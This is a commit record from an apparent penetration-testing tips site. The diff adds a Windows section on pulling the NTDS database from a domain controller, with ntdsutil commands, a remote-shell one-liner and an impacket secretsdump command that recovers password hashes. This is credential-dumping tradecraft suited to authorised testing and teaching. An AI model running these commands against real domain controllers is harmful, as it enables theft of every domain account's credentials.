

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/windows.md, in a window 1280 px wide and 900 px high, scrolled down 6858 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add ntdsutil

````diff
--- a/docs/windows.md
+++ b/docs/windows.md
@@ -340,3 +340,31 @@ rpcclient -U '' <host>
 rpcclient $> enumdomusers
 rpcclient $> queryuser <user>
 ```
+
+## Extract NTDS from a domain controller
+
+
+### ntdsutil
+
+On a DC, open a cmd shell:
+
+```batch
+ntdsutil
+activate instance ntds
+ifm
+create full C:\ntds.dit
+quit
+quit
+```
+
+If you have a remote shell, you can also use the one-liner:
+
+```batch
+ntdsutil "ac i ntds" "ifm" "create full C:\ntds.dit" q q
+```
+
+On your machine, use `impacket` to recover the hashes:
+
+```bash
+python secretsdump.py -ntds <ntds.dit> -system <SYSTEM> LOCAL -outputfile <output> -pwd-last-set -user-status -history
+```
````
